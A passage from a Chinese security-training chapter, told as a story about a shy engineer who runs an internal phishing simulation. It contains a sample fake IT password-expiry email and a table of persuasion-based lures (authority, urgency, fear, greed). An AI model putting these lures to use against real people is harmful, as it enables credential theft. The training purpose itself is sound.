







# 第125章 内向技术宅到社工钓鱼大师（上）

> **难度等级：⭐⭐ 进阶**
>
> **预计阅读时间：150分钟**
>
> **本章看点：内向社恐、被迫钓鱼、社工心理学、Gophish搭建、邮件伪造、钓鱼页面制作、第一次成功、水坑攻击、U盘钓鱼**
>
> ::: tip 说明
> 本章基于真实事件改编。为了保护当事人隐私，所有人物姓名、公司名称、地点、具体时间都已做脱敏处理。但成长经历、技术细节、心路历程，都是真实的。
>
> 看完这一章，你会明白：
> - 社工钓鱼不需要外向，反而需要细腻和逻辑
> - 内向者的某些"缺点"，在社工领域反而是优势
> - 社会工程学是一门科学，不是骗术那么简单
> - 钓鱼框架（Gophish、SET）怎么用
> - 邮件伪造的原理和绕过SPF/DKIM/DMARC的方法
> - 怎么制作逼真的钓鱼页面
> :::

---

## 📖 本章概述

::: tip 写在前面
这不是爽文，这是一个内向技术宅被迫"转型"的真实故事。

主角叫小陈，一个性格内向、社恐严重的安全运维工程师。他每天对着电脑，不敢和女同事说话，开会发言能躲就躲。在公司里，他是个"透明人"。

直到有一次护网行动，团队需要一个人专门负责钓鱼攻击。没人愿意干——大家都觉得这活儿"不光彩"，是"下三滥"。领导点将点到了小陈头上。

他硬着头皮上，第一次写的钓鱼邮件像机器人发的，没人上当，被同事嘲笑"你这不叫钓鱼，这叫喂鱼"。

但他没有放弃。他开始疯狂研究社会工程学，看《欺骗的艺术》《心理操纵术》，研究心理学、行为学。他发现社工钓鱼不需要面对面交流，反而发挥了他细腻观察和逻辑思维的优势。

他搭建Gophish、研究SET、搞邮件伪造、做钓鱼页面，一步步成了公司里最强的社工钓鱼大师。第一次精心设计的钓鱼行动，30%的人中招。

后来他更深入研究了水坑攻击、U盘钓鱼、二维码钓鱼等高级社工技巧，成了团队的核心。

他的故事告诉我们：
- **内向不是缺陷，是一种不同的能力**
- **社工钓鱼是技术+心理学的结合，不是骗术**
- **被逼到绝路，往往是新生的开始**
- **细腻和逻辑，是社工钓鱼最需要的能力**
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] 一个内向社恐者的真实心理世界
- [x] 社会工程学的核心原理（心理学基础）
- [x] Gophish钓鱼平台的搭建和使用方法
- [x] SET（Social Engineering Toolkit）的基本使用
- [x] 邮件伪造原理：SPF、DKIM、DMARC是什么，怎么绕过
- [x] 钓鱼页面制作：克隆OA、企业邮箱、钉钉登录页
- [x] 鱼叉式钓鱼的完整流程
- [x] 水坑攻击的原理和实现
- [x] U盘钓鱼（BadUSB）的方法
- [x] 二维码钓鱼的套路
- [x] 内向者如何发挥自己的优势

---

## 🧑‍💻 主角登场：社恐的安全运维小陈

### 1.1 小陈是谁？

小陈，1996年出生在北方某省的一个三线城市。

父母都是普通工人，家境一般。小陈从小就是个安静的孩子，不爱说话，不爱凑热闹，最喜欢的事就是一个人窝在房间里捣鼓电脑。

高中时候，别的同学放学去打球、逛街、谈恋爱，小陈回家就打开电脑，研究各种技术。从装系统、修电脑开始，慢慢学到编程、网络、Linux。

高考那年，小陈考上了一所普通二本院校的计算机专业。大学四年，他依然是那个最安静的人——上课坐最后一排，下课回宿舍，社团活动一次没参加过，连班级聚餐都经常找借口不去。

> 📌 **小陈的自白**：
> "我也不知道为什么，就是怕和人说话。
> 不是不想，是真的怕。
> 站在人多的地方就紧张，心跳加速，手心出汗。
> 跟不熟的人说话，脑子就一片空白，准备好的话全忘了。
> 女生？更不行了，看一眼就脸红，更别说说话了。"

**小陈的基本信息：**
```
👤 小陈
- 年龄：28岁（2024年）
- 学历：普通二本，计算机科学与技术
- 职业：安全运维工程师
- 公司：某中型互联网公司（500人左右）
- 月薪：12000块
- 性格：内向、社恐、敏感、细腻
- 爱好：写代码、看技术文章、打游戏（单机）、看动漫
- 社交：几乎没有，朋友圈一年发不了3条
- 感情状态：单身28年（没错，一次恋爱没谈过）
- 特长：逻辑思维强、观察力强、做事专注、耐得住寂寞
- 短板：不会说话、不会表达、不会"来事儿"
```

### 1.2 小陈的日常

让我们看看小陈典型的一天是怎么过的。

**小陈的一天：**
```
🌅 早上7:30
- 闹钟响3次才起床
- 洗漱，吃个面包（一个人住，懒得做饭）
- 挤地铁去公司（全程戴耳机，不跟任何人说话）

🕘 早上9:00
- 到公司，打卡
- 低着头走进工位，避免和任何人眼神接触
- 同事说"早啊"，他小声"嗯"一声
- 打开电脑，看监控大盘，检查昨晚有没有告警

🕙 上午10:00
- 处理告警、看日志、写脚本
- 这段时间是他最舒服的时光——不用说话，对着屏幕就行
- 偶尔有同事来找他解决问题，他能躲就躲
- 实在躲不掉，就小声说"你把问题发我邮件吧"

🕛 中午12:00
- 一个人去食堂吃饭（从来不跟同事一起）
- 找个角落的座位，边吃边刷手机
- 看的是技术文章、安全资讯
- 吃完饭回工位，戴上耳机午休

🕑 下午2:00
- 继续干活
- 开会？能不去就不去，去了也坐角落不发言
- 实在要发言，提前把要说的话写在纸上，照着念

🕕 下午6:00
- 下班（从来不加班，除非有紧急事件）
- 挤地铁回家
- 路上买份便当

🌙 晚上8:00
- 吃完饭，打开电脑
- 看技术文章、刷漏洞库、写自己的小工具
- 偶尔打打游戏（单机RPG是他的最爱）
- 看动漫

🌙 晚上12:00
- 睡觉
- 一天结束，说的话不超过10句
```

> 😅 **看到了吗？**
> 这就是一个重度社恐患者的日常。
> 一天说的话，可能还没有正常人多。
> 但就是这样一个人，后来成了社工钓鱼大师。
> 你说讽刺不讽刺？

### 1.3 小陈的工作

小陈在公司的岗位是"安全运维工程师"，听起来挺高大上，其实干的就是"擦屁股"的活儿。

**小陈的工作内容：**
```
🛡️ 安全运维的日常工作：

1. 监控告警
   - 盯着各种安全设备的告警（WAF、IDS、EDR...）
   - 大部分是误报，要人工判断
   - 真正的攻击很少，但一旦有，就要处理

2. 日志分析
   - 每天看海量日志
   - 找异常、找攻击痕迹
   - 这活儿枯燥，但小陈喜欢（不用说话）

3. 漏洞扫描
   - 定期扫描公司资产
   - 发现漏洞，通知相关人员修复
   - 修复进度跟进（这部分要和人沟通，小陈最头疼）

4. 应急响应
   - 出安全事件了，第一时间处理
   - 分析、溯源、处置、写报告
   - 小陈的技术能力没问题，但写报告和汇报是他的短板

5. 安全策略维护
   - 防火墙规则、WAF规则更新
   - 账号权限审核
   - 各种安全配置检查

6. 安全培训（小陈的噩梦）
   - 偶尔要给全员做安全意识培训
   - 站在台上讲，下面几十号人看着
   - 每次都紧张到声音发抖
   - 讲完下来，衣服都湿透了
```

小陈在公司的处境，可以用一个词形容：**透明人**。

技术不差，但没人知道他干了啥。
干活不少，但年终汇报时说不清楚。
领导对他印象一般——"技术还行，但沟通能力太差，难堪大用"。

> 💔 **真实的心酸**：
> 有一次，小陈发现了公司一个高危漏洞，连夜写了个修复方案。
> 第二天发给组长，组长转给了总监，总监在会上汇报给了老板。
> 老板表扬了总监，总监表扬了组长，组长...没提小陈。
>
> 小陈知道后，什么也没说。
> 他不知道该怎么说。
> 也不知道找谁说。
>
> 那天晚上，他在日记里写了一句话：
> **"我又一次做了透明人。"**

### 1.4 不敢和女生说话

说到小陈的社恐，最严重的就是和女生交流。

**小陈和女生的"交流史"：**
```
💔 小陈28年来的感情经历：

【高中】
- 喜欢过同桌的女生
- 三年，说过的话不超过50句
- 毕业时想写情书，写了一晚上，最后撕了
- 至今那个女生不知道有人喜欢过她

【大学】
- 班里有6个女生
- 四年，和每个女生说话不超过10句
- 大二时参加了一次社团活动（被室友硬拉去的）
- 有个学姐跟他说话，他紧张到结巴，学姐以为他有病
- 从此再没参加过任何活动

【工作】
- 公司有几个女同事
- 工作交流全靠邮件/钉钉打字
- 实在要当面说，提前打好腹稿，说完就走
- 有个女同事（产品部的）偶尔找他对接需求
- 小陈心里偷偷觉得她人挺好
- 但从不敢多聊一句
- 有次女同事加班没吃饭，小陈想给她带份外卖
- 在工位上纠结了2小时
- 最后外卖给自己点了

【现状】
- 老妈天天催婚
- 相亲去过3次，每次都冷场
- 第一次，全程低头看手机，对方说"你是不是不想来"
- 第二次，紧张到把水打翻了
- 第三次，对方觉得他"太闷了"，没下文
- 小陈自己说："我这种人，活该单身。"
```

> 🤔 **你可能觉得好笑，但对小陈来说，这是真的痛苦。**
> 他不是不想交流，是真的做不到。
> 每次想开口，喉咙就像被堵住了一样。
> 脑子里有千言万语，嘴上一个字都说不出来。
> 这种感觉，只有社恐的人才能懂。

### 1.5 小陈的"超能力"

但是，社恐也有社恐的好处。

小陈虽然不会说话，但他有几个别人没有的能力：

**小陈的优势：**
```
✨ 内向者的隐藏优势：

1. 观察力极强
   - 因为不说话，所以一直在观察
   - 别人的微表情、小动作、语气变化，他都能捕捉到
   - 这种能力，后来在社工中发挥了巨大作用

2. 逻辑思维强
   - 不爱闲聊，但爱思考
   - 任何事都要分析因果、推理逻辑
   - 这种思维方式，特别适合设计钓鱼攻击链

3. 做事专注、耐得住寂寞
   - 能一个人坐10个小时不动
   - 能把一件事反复打磨到极致
   - 钓鱼邮件改50遍？没问题

4. 细腻、注意细节
   - 一封邮件里的标点符号不对，他都能看出来
   - 一个网页的logo差了1像素，他能发现
   - 这种细腻，是做钓鱼页面的关键

5. 善于文字表达
   - 不会说，但会写
   - 写出来的东西，比说出来的更有条理
   - 钓鱼邮件，靠的就是文字

6. 同理心强
   - 敏感的人，往往能共情别人
   - 能想象"如果我是对方，我会怎么想"
   - 这是社工最核心的能力——理解人性
```

> 💡 **这些优势，当时的小陈自己都不知道。**
> 他只觉得自己是个失败者——不会说话、不会社交、不会来事儿。
> 直到后来被迫走上社工钓鱼这条路，他才发现：
> **原来我的"缺点"，换一个地方就是"优点"。**

---

## 🎣 命运的转折：被逼上钓鱼这条路

### 2.1 护网来了

2024年6月，公司接到了护网行动的通知。

小陈所在的公司，是一家中型互联网公司，主营业务是SaaS服务。虽然规模不大，但因为是云服务，涉及大量企业客户数据，被列入了护网目标名单。

公司上下高度重视，成立了专门的护网小组：

**护网小组人员构成：**
```
📋 公司护网小组（防守方）：

【组长】
- 老周（安全部总监）
  - 40岁，做了15年安全
  - 技术一般，但管理能力强
  - 护网经验丰富

【攻击组】（3人）
- 阿凯（红队负责人）→ 5年渗透经验
- 小李 → 3年Web渗透
- 小陈 → 安全运维，被临时拉来"打杂"

【防守组】（5人）
- 大刘（蓝队负责人）→ 8年安全运维
- 小张、小王、小赵 → 安全运维
- 小孙 → 应急响应

【支援组】（2人）
- 老马 → 基础设施
- 小杨 → 工具开发
```

> 📌 **注意**：
> 这里的"攻击组"是公司自己的红队，用来做内部对抗的。
> 护网期间，他们要模拟外部攻击者，攻击自己的系统，检验防守能力。
> 同时，还要应付外部红队的攻击（防守）。

### 2.2 第一次作战会议

护网前两周，老周召集所有人开第一次作战会议。

会议室里，10个人围着一张大桌子坐下。小陈照例坐在角落，低着头，准备当个透明人。

老周站在白板前，开始部署：

> "兄弟们，护网还有两周，时间紧任务重。
> 我们这次的安排：
> 1. 攻击组负责模拟外部攻击，检验我们的防守
> 2. 防守组负责监控、阻断、溯源
> 3. 支援组负责基础设施和工具
>
> 攻击组这边，阿凯你负责Web打点和内网渗透。
> 但是有一个重要的任务——**钓鱼攻击**。
>
> 去年护网，外部红队就是靠钓鱼拿下了我们几个员工的OA账号，差点打进内网。
> 今年我们要提前演练，看看我们的员工会不会上钩。
>
> 这个钓鱼的任务，谁来做？"

会议室里一阵沉默。

**钓鱼攻击**这活儿，在安全圈子里有点"尴尬"。

为啥呢？
- 大家都觉得自己是搞"技术"的，钓鱼算什么技术？
- 钓鱼攻击的对象是公司同事，有点"内斗"的感觉
- 万一同事上钩了，面子上过不去，容易得罪人
- 而且，钓鱼这活儿繁琐——要写邮件、做页面、搭平台、统计数据，吃力不讨好

所以，没人主动接这个活儿。

老周扫了一圈，目光落在了角落里的小陈身上。

> "小陈，你来负责钓鱼这块吧。"

小陈一愣，抬起头，对上老周的目光，瞬间脸就红了。

> "我...我...我不行吧...我没做过..."

老周说：
> "没事，你技术底子好，学一下就会了。
> 而且钓鱼这块，主要是搭平台、写邮件，不需要太多渗透经验。
> 你先把Gophish搭起来，做几个钓鱼邮件模板，我们试试水。
>
> 阿凯他们要专注打点，没精力搞这个。
> 你就当练手了，怎么样？"

小陈想拒绝，但话到嘴边又咽了回去。

他最怕跟人争执，最怕让领导失望，最怕成为"那个不配合的人"。

于是他点了点头，小声说了句：

> "好...好的，我试试。"

散会后，小陈回到工位，盯着屏幕发呆。

**他心里一万匹马奔腾：**
```
😱 小陈的内心戏：

"完了完了完了..."
"我连话都说不利索，让我去做社工？？？"
"社工不是那种外向、会聊天、会忽悠的人干的事吗？"
"我一个社恐，怎么做社工？"
"我连给同事发钉钉都要纠结半天措辞..."
"现在让我写钓鱼邮件去骗同事？"
"老周是不是搞错了？"

"但是...我已经答应了..."
"拒绝的话，又说不出口..."
"算了，硬着头皮上吧..."
"大不了搞砸了，被骂一顿..."
"反正我平时也被骂惯了..."
```

> 😂 **这就是社恐的真实写照**
> 明明不想干，但不会拒绝。
> 答应了之后，又焦虑到失眠。
> 小陈那天晚上，真的失眠了。

---

## 🐟 第一次钓鱼：灾难现场

### 3.1 硬着头皮上

接下来的几天，小陈开始研究钓鱼攻击。

他上网搜了搜资料，看了几篇博客，下了个Gophish，照着教程装上了。

**小陈的第一版钓鱼方案：**
```
📧 第一版钓鱼方案（灾难版）：

【目标】公司全体员工（约500人）
【方式】邮件钓鱼
【钓鱼内容】伪装成IT部门，要求修改密码

【钓鱼邮件草稿】
主题：密码即将过期，请立即修改
正文：
  各位同事：
  您好。
  经系统检测，您的账号密码将于24小时后过期。
  为避免影响正常使用，请立即点击下方链接修改密码。
  链接：http://10.0.0.123/password-reset
  如有问题，请联系IT部门。
  此致
  敬礼
  IT部门

【钓鱼页面】
- 一个简陋的"密码修改"页面
- 标题：密码修改
- 两个输入框：新密码、确认密码
- 一个按钮：提交
- 页面用的是默认的HTML样式，蓝底白字，丑到爆
```

### 3.2 灾难性的结果

小陈用Gophish发了500封钓鱼邮件，然后忐忑地等待结果。

**结果：**
```
📊 第一版钓鱼结果：

【发送】500封
【送达】498封（2封被网关拦截）
【打开】23封（打开率4.6%）
【点击链接】3人（点击率0.6%）
【提交密码】0人（中招率0%）

【反馈】
- 5个人直接把邮件标为垃圾邮件
- 2个人把邮件转发给IT部门，问"这是不是钓鱼邮件？"
- 1个人在全公司大群里发："最近有钓鱼邮件，大家注意！"
- 其他人根本没点开

【结论】
彻底失败。
```

更惨的是，那个在大群里发警告的人，是市场部的一个姐们，她还在群里补了一句：

> "这钓鱼邮件写得也太假了吧，一看就是骗子。"

小陈看到这条消息，脸刷地就红了，恨不得找个地缝钻进去。

### 3.3 同事的嘲笑

下午的复盘会上，攻击组的阿凯看了小陈的钓鱼数据，没忍住笑出了声。

> "哈哈哈哈，小陈，你这钓鱼邮件是怎么写的？
> '密码即将过期，请立即修改'？
> 这语气，比我家的智能音箱还机器化。
>
> 而且你那个钓鱼页面，也太丑了。
> 蓝底白字，连个logo都没有，谁会上当啊？
>
> 还有，你的链接是 http://10.0.0.123/...
> 内网IP地址都暴露了，谁看不出来有问题？"

另一个同事小李也跟着起哄：

> "小陈，你这不叫钓鱼，这叫**喂鱼**。
> 鱼都看到饵了，根本不想吃，你这是在喂它们看。"

会议室里一片笑声。

小陈低着头，脸涨得通红，一句话都说不出来。

**他心里很难受，但更多的是羞耻。**

> 💔 **那一刻，小陈想辞职。**
> 他在日记里写：
> "我就知道我不行。让我做社工，简直是笑话。
> 我连话都说不好，怎么骗人？
> 算了，我就是个废物。"

老周看气氛有点尴尬，打了个圆场：

> "好了好了，别笑了。第一次做，难免的。
> 小陈，你别有压力，钓鱼这东西是有方法的。
> 你去研究研究，看看别人是怎么做的。
> 下周再试一次。"

### 3.4 那天晚上

那天晚上回到家，小陈没有打开电脑刷技术文章，也没有打游戏。

他躺在沙发上，盯着天花板发呆。

**他在想一个问题：**

> "为什么我做的钓鱼，没人上当？
> 是因为我不够聪明？还是因为我不会说话？
> 还是因为...我根本不懂人？"

突然，他想起之前看过的一句话：

> **"社会工程学的核心，不是技术，是理解人。"**

他坐起来，打开电脑，开始搜索"社会工程学"。

他看到了一个名字——**凯文·米特尼克**。

> 📌 **凯文·米特尼克**：
> 世界头号黑客，被称为"自由黑客"。
> 他最厉害的不是技术，而是社会工程学。
> 他能打电话给电信公司员工，装成内部人员，套出系统密码。
> 他写过一本书——《欺骗的艺术》。
> 这本书是社会工程学的"圣经"。

小陈看着米特尼克的故事，突然有一种感觉：

> **"这个人...好像也是一个人在战斗。
> 他不是靠人多，是靠对人性的理解。
> 他不需要面对面，一个电话就能骗到人。
>
> 如果...如果社工不需要面对面交流呢？
> 如果只需要邮件、文字、心理呢？
> 那我...是不是也能做？"**

那一刻，小陈心里有什么东西动了。

他下载了《欺骗的艺术》的电子版，开始读。

读到凌晨3点，他放不下。

> 💡 **这是一个转折点。**
> 从这一刻开始，小陈不再把社工当成"被迫完成的任务"。
> 他开始把它当成一门**值得研究的学问**。
> 而他的内向性格，反而让他比一般人更专注、更深入。

---

## 📚 疯狂补课：从《欺骗的艺术》开始

### 4.1 研读社工经典

接下来的一周，小陈像着了魔一样，疯狂研究社会工程学。

**小陈的书单：**
```
📚 小陈读的社工/心理学书籍：

【社工经典】
1. 《欺骗的艺术》- 凯文·米特尼克
   → 社工圣经，必读
   → 核心：人是安全链条中最薄弱的环节

2. 《社会工程：安全体系中的人性漏洞》- 克里斯托弗·海德纳吉
   → 系统化讲解社工方法论
   → 核心：信息收集、建立信任、操纵心理、执行攻击

3. 《黑客心理学》- 各种版本
   → 从心理学角度分析攻击者和被攻击者

【心理学相关】
4. 《影响力》- 罗伯特·西奥迪尼
   → 六大影响力原则：互惠、承诺一致、社会认同、喜好、权威、稀缺
   → 这六个原则，是社工的底层逻辑

5. 《心理操纵术》- 大卫·李柏曼
   → 心理操纵的202个技巧
   → 虽然名字唬人，但内容很实用

6. 《思考，快与慢》- 丹尼尔·卡尼曼
   → 系统1（直觉）和系统2（理性）
   → 钓鱼攻击的目标，就是激活对方的系统1

7. 《乌合之众》- 古斯塔夫·勒庞
   → 群体心理学经典
   → 理解人在群体中的行为模式

【行为学】
8. 《习惯的力量》- 查尔斯·杜希格
   → 人的行为很大程度上是习惯
   → 钓鱼攻击，利用的就是人的习惯反应

9. 《细节：如何轻松影响他人》- 罗伯特·西奥迪尼
   → 影响力的实操版
   → 具体怎么用心理技巧
```

> 📖 **小陈的读书方式很有意思：**
> 他不是泛泛地读，而是带着问题读。
> 每读一个技巧，他就想："这个技巧，怎么用在钓鱼邮件上？"
>
> 比如读到"权威原则"——人会本能地服从权威。
> 他就想："那钓鱼邮件伪装成CEO，是不是比伪装成IT部门更容易让人上当？"
>
> 比如读到"稀缺原则"——人害怕失去机会。
> 他就想："邮件里写'仅限今天'，是不是点击率会更高？"
>
> 这种思考方式，让他把书本知识和实际操作结合了起来。

### 4.2 社工的核心原理

小陈把书里的知识整理成了笔记，总结出了社工的几个核心原理：

**图125-1 社会工程学的核心原理**


**小陈的社工笔记（精华版）：**
```
📝 社会工程学核心原理总结：

一、人是最薄弱的环节
   - 再强的技术防护，也防不住人的疏忽
   - 黑客不一定要攻破系统，骗一个人就够了
   - 例子：拿到一个员工的VPN账号，就能进内网

二、影响力的六大原则（西奥迪尼）
   1. 互惠：给人好处，人会觉得有义务回报
      → 钓鱼应用："免费福利领取"（先给甜头）
   
   2. 承诺与一致：人倾向于保持自己说过的话/做过的事
      → 钓鱼应用："您之前确认要修改密码，请点击完成"
   
   3. 社会认同：人会看别人怎么做，来决定自己怎么做
      → 钓鱼应用："已有1000+同事完成验证"
   
   4. 喜好：人更容易被自己喜欢的人说服
      → 钓鱼应用：冒充熟人/偶像/喜欢的品牌
   
   5. 权威：人倾向于服从权威
      → 钓鱼应用：冒充领导/IT部门/官方通知
   
   6. 稀缺：人害怕失去机会
      → 钓鱼应用："限时""仅剩X个名额""今天截止"

三、人类的三大弱点（恐惧/贪婪/好奇）
   1. 恐惧：人害怕失去
      → "您的账号将被冻结"
      → "检测到异常登录"
   
   2. 贪婪：人想要更多
      → "领取年终奖红包"
      → "免费领取礼品"
   
   3. 好奇：人想知道未知
      → "您被同事匿名举报"
      → "有人给您留言了"

四、系统1 vs 系统2（卡尼曼）
   - 系统1：快速、直觉、自动、不费力
   - 系统2：缓慢、理性、需要专注、费力
   - 钓鱼的目标：激活对方的系统1，让他不假思索就点
   - 怎么激活？
     * 制造紧迫感（"24小时内处理"）→ 没时间理性思考
     * 制造压力（"账号即将冻结"）→ 恐惧压倒理性
     * 简化操作（"一键完成"）→ 不给思考时间

五、钓鱼邮件的成功要素
   1. 发件人：必须看起来可信（权威/熟悉）
   2. 主题：必须引起注意，但不引起怀疑
   3. 正文：必须有说服力，触发情绪
   4. 链接：必须看起来正常
   5. 页面：必须逼真，和真的一样
   6. 时机：选对时间（工作日上午10-11点最好）
```

### 4.3 顿悟：内向者的优势

读到第二周，小陈突然有了一个顿悟。

他在日记里写下了这段话：

> "我突然明白了。
> 社工钓鱼，本质上不是'说话'，而是'理解'。
> 
> 我不会说话，但我会观察。
> 我不会忽悠，但我会分析。
> 我不会面对面交流，但我会写邮件。
> 
> 社工钓鱼不需要面对面——
> 它需要的是：
> 1. 理解对方的心理（我敏感，能共情）
> 2. 设计精准的话术（我会写，逻辑强）
> 3. 制作逼真的页面（我细腻，注意细节）
> 4. 搭建技术平台（我是技术出身）
> 5. 反复优化打磨（我耐得住寂寞）
>
> 这些...不都是我的强项吗？
>
> 米特尼克当年打电话骗人，靠的不是嘴皮子溜，
> 靠的是对人性的深刻理解，和对细节的把控。
>
> 我做不到打电话，但我可以做邮件钓鱼。
> 邮件钓鱼，全部是文字+技术+心理。
> 
> **也许...这就是为我量身定做的方向。**"

> 💡 **这是一个关键的认知转变。**
> 从这一刻开始，小陈不再觉得社工是"外向者的专利"。
> 他开始相信自己能做好。
> 这种自信，不是盲目的，而是建立在理性分析基础上的。
> 正是这种"内向者的自信"，支撑他走完了后面的路。

---

## 🛠️ 研究钓鱼框架：Gophish与SET

### 5.1 Gophish：开源钓鱼平台

小陈研究的第一个钓鱼框架，是 **Gophish**。

> 📌 **什么是Gophish？**
> Gophish是一个开源的钓鱼攻击模拟平台，用Go语言写的。
> 它能帮你：
> - 管理钓鱼邮件模板
> - 管理目标人群
> - 发送钓鱼邮件
